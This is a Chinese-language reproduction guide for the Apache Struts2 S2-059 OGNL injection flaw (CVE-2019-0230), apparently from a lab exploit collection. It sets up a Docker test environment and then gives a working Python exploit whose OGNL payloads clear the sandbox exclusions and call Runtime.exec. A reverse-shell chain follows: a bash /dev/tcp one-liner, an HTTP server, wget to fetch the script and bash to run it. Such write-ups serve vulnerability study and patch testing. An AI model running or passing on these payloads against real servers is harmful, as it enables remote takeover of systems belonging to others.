


# Struts2 S2-059 远程代码执行漏洞 CVE-2019-0230

## 漏洞描述

Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 漏洞影响

影响版本: Struts 2.0.0 - Struts 2.5.20

## 环境搭建

Vulhub执行以下命令启动Struts 2.5.16 s2-059测试环境：

```
docker-compose build
docker-compose up -d
```

启动环境之后访问`http://your-ip:8080/?id=1` 就可以看到测试界面

## 漏洞复现

访问 `http://your-ip:8080/?id=%25%7B233*233%7D`，可以发现233*233的结果被解析到了id属性中：



《[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)》给出了绕过struts2.5.16版本的沙盒的poc，利用这个poc可以达到执行系统命令。

通过如下Python脚本复现漏洞：

```python
import requests

url = "http://192.168.174.128:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/awesome_poc'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

执行poc之后，进入容器发现`touch /tmp/awesome_poc`已成功执行。


### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

执行shell.sh文件的命令为：

```
bash shell.sh
```

成功接收反弹shell：


